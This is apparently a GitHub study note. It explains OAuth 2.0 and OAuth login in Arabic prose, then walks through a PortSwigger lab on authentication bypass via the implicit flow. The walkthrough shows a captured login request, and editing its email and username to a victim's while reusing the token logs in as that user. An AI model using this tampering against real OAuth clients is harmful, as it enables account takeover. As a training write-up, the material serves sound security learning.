 # OAauth             

* <details>
     <summary>What is OAuth and how it work?</summary>

  # 🚀 شرح OAuth 2.0 ببساطة
  
  ## ما هو OAuth؟
  - **OAuth** عبارة عن **إطار عمل (Framework) للتفويض Authorization**.  
  - فكرته الأساسية:  
    التطبيق (مثلاً موقع ألعاب) ممكن يطلب صلاحيات محدودة من حسابك في خدمة تانية (زي Google أو Facebook) **من غير ما يعرف الباسورد بتاعك**.  
  - ده بيدي للمستخدم تحكم: يقدر يوافق يشارك بيانات معينة (زي قائمة أصدقائه) من غير ما يدي صلاحيات كاملة أو يسلّم حسابه بالكامل.  
  
  📌 **مثال**: تطبيق عايز يعمل "Find Friends" → يطلب منك صلاحية الدخول على الـ contacts في Gmail.  
  
  ---
  
  ## الفايدة الأكبر
  - بدل ما المستخدم يدخل الباسورد بتاعه في مواقع كتير → يدخل مرة واحدة في Google/Facebook.  
  - الموقع التاني ياخد **Access Token** يقدر يستخدمه عشان يجيب البيانات المسموح بيها فقط.  
  
  ---
  
  ## 👥 أطراف اللعبة في OAuth 2.0
  1. **Client Application**: الموقع اللي عايز يستخدم بياناتك (مثلاً موقع يشغّل خدمة).  
  2. **Resource Owner**: المستخدم نفسه (إنت).  
  3. **OAuth Service Provider**: الجهة اللي عندها بياناتك (مثلاً Google, Facebook).  
     - فيها **Authorization Server** (اللي بيأكّد الهوية ويطلع Access Token).  
     - وفيها **Resource Server** (اللي فيه الـ API والبيانات).  
  
  ---
  
  ## 🔄 خطوات العملية (Simplified Flow)
  1. **Client App** يطلب منك تصريح: "ممكن أخد صلاحية X من حسابك؟".  
  2. أنت بتروح على صفحة Google/Facebook، تعمل Login وتوافق على الطلب.  
  3. لو وافقت: السيرفر (Google) يدي التطبيق **Authorization Code** (أو Access Token على طول حسب نوع الـ Flow).  
  4. التطبيق يستخدم الكود عشان ياخد **Access Token** من الـ Authorization Server.  
  5. التطبيق يستخدم الـ Token ده عشان يكلم الـ Resource Server ويجيب البيانات اللي إنت وافقت عليها.  
  
  ---
  
  ## 📚 أنواع الـ Flows (Grant Types)
  - **Authorization Code Flow** (الأكثر شيوعًا – آمن):  
    - التطبيق ياخد **Code** مؤقت → يبدّله بـ **Access Token** من السيرفر.  
    - ميزة: التوكين مش بيعدي عبر الـ URL مباشرة (أأمن).  
  
  - **Implicit Flow** (قديم – أقل أمان):  
    - التطبيق بياخد **Access Token** مباشرة في الـ URL.  
    - مشاكل: ممكن يتسرب في الـ logs أو الـ referrer.  
  
  ---
  
  ## 📝 الخلاصة
  - OAuth مش نظام Authentication (هو أساسًا **Authorization**).  
  - لكنه بيستخدم بشكل واسع في **Social Login** (تسجيل الدخول بجوجل/فيسبوك).  
  - بيوفر **أمان + سهولة**: المستخدم ما يشاركش كلمة السر، والتطبيق ياخد صلاحيات محدودة.  
  - أهم شيء: نفهم الـ Flows (Authorization Code / Implicit) قبل ما ندخل في ثغراته.  
  
  
  
  
  ---
  ---
  
  # 🔑 OAuth كـ Authentication (تسجيل دخول)
  
  ## ما الفرق عن OAuth الأصلي؟
  - **الفكرة الأصلية لـ OAuth**: كان معمول علشان *التفويض* (Authorization) → يعني السماح لتطبيق معيّن ياخد صلاحيات محدودة من حسابك.  
  - **لكن مع الوقت**: بدأوا يستخدموه كمان في *المصادقة* (Authentication) → تسجيل الدخول بحساب خارجي زي Google أو Facebook.  
  
  📌 يعني بدل ما تسجّل في الموقع وتعمل Username/Password جديدة، تختار "Login with Google".  
  
  ---
  
  ## ⚙️ إزاي بيشتغل كـ Authentication؟
  الـ Flow الأساسي شبه الـ OAuth العادي، لكن الفرق في **إزاي الـ Client App بيستعمل البيانات**:  
  
  1. **المستخدم** يختار "تسجيل الدخول باستخدام حساب فيسبوك/جوجل".  
  2. **Client App** يطلب من خدمة OAuth (مثلاً Google) بيانات تعريفية عن المستخدم (زي الـ email).  
  3. بعد ما السيرفر يدي **Access Token** → الـ Client App يستخدمه ويطلب بيانات المستخدم من الـ **Resource Server** (عادة من endpoint زي `/userinfo`).  
  4. السيرفر يبعت البيانات (مثلاً: email = user@gmail.com).  
  5. الـ Client App يستخدم البيانات دي بدال الـ Username/Password علشان يعرّفك في السيستم.  
     - أحيانًا الـ Access Token نفسه بيتعامل كأنه "بديل للباسورد" طول ما هو صالح.  
  
  ---
  
  ## 👀 من منظور المستخدم
  - الشكل النهائي بيشبه **SSO (Single Sign-On)** اللي معمول بـ SAML.  
  - المستخدم بيضغط زر واحد → يفتح صفحة خارجية (Google) → يوافق → يرجع للموقع وهو متسجّل دخول.  
  
  ---
  
  ## 🧪 التدريب العملي (Lab Example)
  - لما تعمل Login بالـ Social Media في الـ Lab على PortSwigger، هتشوف:  
    - **Redirects** رايحة وجاية بين الموقع وبين السيرفر (Google/Facebook).  
    - **Access Token** بيطلع من السيرفر.  
    - الموقع بيطلب `/userinfo` عشان يجيب بياناتك.  
  
  > في المعمل، تقدر تجرب تعمل Login بحساب الاختبار: **wiener:peter** وتشوف كل الـ Flow ده في Burp Proxy.  
  
  ---
  
  ## 📝 الخلاصة
  - OAuth اتطور وبقى وسيلة تسجيل دخول (Authentication) مش بس تفويض.  
  - الـ Client App مش بياخد الباسورد بتاعك → بياخد Access Token → وبيروح يجيب بيانات من السيرفر (زي الـ email) → ويدخلك بيها.  
  - النتيجة: Login سهل وسريع + أمان أعلى (ما فيش مشاركة للباسورد).  
  - لكن 👀 هنا ييجي دور الثغرات اللي ممكن تحصل أثناء العملية (هنشوفها في الـ Labs).  
  
  
  

  </details>






# OAuth authentication Labs 




<details>
  <summary>Lab: Authentication bypass via OAuth implicit flow</summary>

1. login with **`wiener : peter`**
2. go to ``http history`` in burp

```
POST /authenticate HTTP/2
Host: 0a4d00a404a21971801a6239001b004c.web-security-academy.net
Cookie: session=ysuWtiBhdYmkXnGRsG3NrvyppQVIhu0w
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4d00a404a21971801a6239001b004c.web-security-academy.net/oauth-callback
Content-Type: application/json
Content-Length: 103
Origin: https://0a4d00a404a21971801a6239001b004c.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers


{
  "email":"wiener@hotdog.com",
  "username":"wiener",
  "token":"z_FeEMGkJ9NtWwvU9zrSwhScgQdn47ZzEf8GpgcEB3r"
}
```
   
`change jsaon content to:`

```
{
  "email":"carlos@carlos-montoya.net",
  "username":"carlos",
  "token":"z_FeEMGkJ9NtWwvU9zrSwhScgQdn47ZzEf8GpgcEB3r"
}
```

> after that click **`show response in browser`**

<img width="752" height="51" alt="image" src="https://github.com/user-attachments/assets/7f8e2109-d3c0-46bb-9ca6-d77a8a8b9578" />

<img width="1390" height="536" alt="image" src="https://github.com/user-attachments/assets/9a8e8ece-b078-4b45-8b0e-a0b1413996c2" />


 
</details>














































 
